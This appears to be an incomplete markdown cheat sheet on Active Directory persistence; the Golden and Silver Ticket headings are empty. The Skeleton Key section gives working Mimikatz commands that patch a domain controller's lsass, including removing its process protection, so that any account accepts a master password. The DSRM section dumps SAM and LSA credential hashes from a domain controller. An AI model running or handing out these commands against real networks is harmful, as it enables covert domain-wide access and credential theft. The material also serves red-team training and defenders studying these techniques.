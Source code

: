 ## Persistence on Active Directory 

### Golden Ticket



### Silver Ticket


### Skeleton Key
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd

1- Dump DSRM password (DA privileges required)
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>
```

2- Compare the Administrator hash with the Admin hash of this command
```powershell
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>
```
3- First one is the DSRM local Admin

### MORE





